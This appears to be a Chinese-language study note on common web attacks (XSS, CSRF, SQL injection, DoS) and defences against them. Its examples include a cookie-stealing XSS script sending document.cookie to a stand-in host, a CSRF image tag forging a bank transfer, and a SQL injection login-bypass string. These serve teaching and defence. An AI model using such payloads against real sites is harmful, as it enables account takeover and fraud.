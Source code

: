 ```yaml
---
{"dg-publish":true,"permalink":"/Program/Mixed/攻击技术/","noteIcon":"","created":"2024-05-22T16:17:54.155+08:00"}
---
```


## 一、跨站脚本攻击

### 概念

跨站脚本攻击（Cross-Site Scripting, XSS），可以将代码注入到用户浏览的网页上，这种代码包括 HTML 和 JavaScript。

### 攻击原理

例如有一个论坛网站，攻击者可以在上面发布以下内容：

```html
<script>
location.href="//domain.com/?c=" + document.cookie
</script>
```

之后该内容可能会被渲染成以下形式：

```html
<p>
    <script>
        location.href="//domain.com/?c=" + document.cookie
    </script>
</p>
```

另一个用户浏览了含有这个内容的页面将会跳转到 domain.com 并携带了当前作用域的 Cookie。如果这个论坛网站通过 Cookie 管理用户登录状态，那么攻击者就可以通过这个 Cookie 登录被攻击者的账号了。

### 危害

- 窃取用户的 Cookie
- 伪造虚假的输入表单骗取个人信息
- 显示伪造的文章或者图片

### 防范手段

#### 1. 设置 Cookie 为 HttpOnly

设置了 HttpOnly 的 Cookie 可以防止 JavaScript 脚本调用，就无法通过 document.cookie 获取用户 Cookie 信息。

#### 2. 过滤特殊字符

例如将 `<` 转义为 `&lt;`，将 `>` 转义为 `&gt;`，从而避免 HTML 和 Jascript 代码的运行。

富文本编辑器允许用户输入 HTML 代码，就不能简单地将 `<` 等字符进行过滤了，极大地提高了 XSS 攻击的可能性。

富文本编辑器通常采用 XSS filter 来防范 XSS 攻击，通过定义一些标签白名单或者黑名单，从而不允许有攻击性的 HTML 代码的输入。

以下例子中，form 和 script 等标签都被转义，而 h 和 p 等标签将会保留。

```html
<h1 id="title">XSS Demo</h1>

<p>123</p>

<form>
  <input type="text" name="q" value="test">
</form>

<pre>hello</pre>

<script type="text/javascript">
alert(/xss/);
</script>
```

```html
<h1>XSS Demo</h1>

<p>123</p>

&lt;form&gt;
  &lt;input type="text" name="q" value="test"&gt;
&lt;/form&gt;

<pre>hello</pre>

&lt;script type="text/javascript"&gt;
alert(/xss/);
&lt;/script&gt;
```

> [XSS 过滤在线测试](http://jsxss.com/zh/try.html)

## 二、跨站请求伪造

### 概念

跨站请求伪造（Cross-site request forgery，CSRF），是攻击者通过一些技术手段欺骗用户的浏览器去访问一个自己曾经认证过的网站并执行一些操作（如发邮件，发消息，甚至财产操作如转账和购买商品）。由于浏览器曾经认证过，所以被访问的网站会认为是真正的用户操作而去执行。

XSS 利用的是用户对指定网站的信任，CSRF 利用的是网站对用户浏览器的信任。

### 攻击原理

假如一家银行用以执行转账操作的 URL 地址如下：

```
http://www.examplebank.com/withdraw?account=AccoutName&amount=1000&for=PayeeName。
```

那么，一个恶意攻击者可以在另一个网站上放置如下代码：

```
<img src="http://www.examplebank.com/withdraw?account=Alice&amount=1000&for=Badman">。
```

如果有账户名为 Alice 的用户访问了恶意站点，而她之前刚访问过银行不久，登录信息尚未过期，那么她就会损失 1000 美元。

这种恶意的网址可以有很多种形式，藏身于网页中的许多地方。此外，攻击者也不需要控制放置恶意网址的网站。例如他可以将这种地址藏在论坛，博客等任何用户生成内容的网站中。这意味着如果服务器端没有合适的防御措施的话，用户即使访问熟悉的可信网站也有受攻击的危险。

通过例子能够看出，攻击者并不能通过 CSRF 攻击来直接获取用户的账户控制权，也不能直接窃取用户的任何信息。他们能做到的，是欺骗用户浏览器，让其以用户的名义执行操作。

### 防范手段

#### 1. 检查 Referer 首部字段

Referer 首部字段位于 HTTP 报文中，用于标识请求来源的地址。检查这个首部字段并要求请求来源的地址在同一个域名下，可以极大的防止 CSRF 攻击。

这种办法简单易行，工作量低，仅需要在关键访问处增加一步校验。但这种办法也有其局限性，因其完全依赖浏览器发送正确的 Referer 字段。虽然 HTTP 协议对此字段的内容有明确的规定，但并无法保证来访的浏览器的具体实现，亦无法保证浏览器没有安全漏洞影响到此字段。并且也存在攻击者攻击某些浏览器，篡改其 Referer 字段的可能。

#### 2. 添加校验 Token

在访问敏感数据请求时，要求用户浏览器提供不保存在 Cookie 中，并且攻击者无法伪造的数据作为校验。例如服务器生成随机数并附加在表单中，并要求客户端传回这个随机数。

#### 3. 输入验证码

因为 CSRF 攻击是在用户无意识的情况下发生的，所以要求用户输入验证码可以让用户知道自己正在做的操作。

## 三、SQL 注入攻击

### 概念

服务器上的数据库运行非法的 SQL 语句，主要通过拼接来完成。

### 攻击原理

例如一个网站登录验证的 SQL 查询代码为：

```sql
strSQL = "SELECT * FROM users WHERE (name = '" + userName + "') and (pw = '"+ passWord +"');"
```

如果填入以下内容：

```sql
userName = "1' OR '1'='1";
passWord = "1' OR '1'='1";
```

那么 SQL 查询字符串为：

```sql
strSQL = "SELECT * FROM users WHERE (name = '1' OR '1'='1') and (pw = '1' OR '1'='1');"
```

此时无需验证通过就能执行以下查询：

```sql
strSQL = "SELECT * FROM users;"
```

### 防范手段

#### 1. 使用参数化查询

Java 中的 PreparedStatement 是预先编译的 SQL 语句，可以传入适当参数并且多次执行。由于没有拼接的过程，因此可以防止 SQL 注入的发生。

```java
PreparedStatement stmt = connection.prepareStatement("SELECT * FROM users WHERE userid=? AND password=?");
stmt.setString(1, userid);
stmt.setString(2, password);
ResultSet rs = stmt.executeQuery();
```

#### 2. 单引号转换

将传入的参数中的单引号转换为连续两个单引号，PHP 中的 Magic quote 可以完成这个功能。

## 四、拒绝服务攻击

拒绝服务攻击（denial-of-service attack，DoS），亦称洪水攻击，其目的在于使目标电脑的网络或系统资源耗尽，使服务暂时中断或停止，导致其正常用户无法访问。

分布式拒绝服务攻击（distributed denial-of-service attack，DDoS），指攻击者使用两个或以上被攻陷的电脑作为“僵尸”向特定的目标发动“拒绝服务”式攻击。

## 参考资料

- [维基百科：跨站脚本](https://zh.wikipedia.org/wiki/%E8%B7%A8%E7%B6%B2%E7%AB%99%E6%8C%87%E4%BB%A4%E7%A2%BC)
- [维基百科：SQL 注入攻击](https://zh.wikipedia.org/wiki/SQL%E8%B3%87%E6%96%99%E9%9A%B1%E7%A2%BC%E6%94%BB%E6%93%8A)
- [维基百科：跨站点请求伪造](https://zh.wikipedia.org/wiki/%E8%B7%A8%E7%AB%99%E8%AF%B7%E6%B1%82%E4%BC%AA%E9%80%A0)
- [维基百科：拒绝服务攻击](https://zh.wikipedia.org/wiki/%E9%98%BB%E6%96%B7%E6%9C%8D%E5%8B%99%E6%94%BB%E6%93%8A)
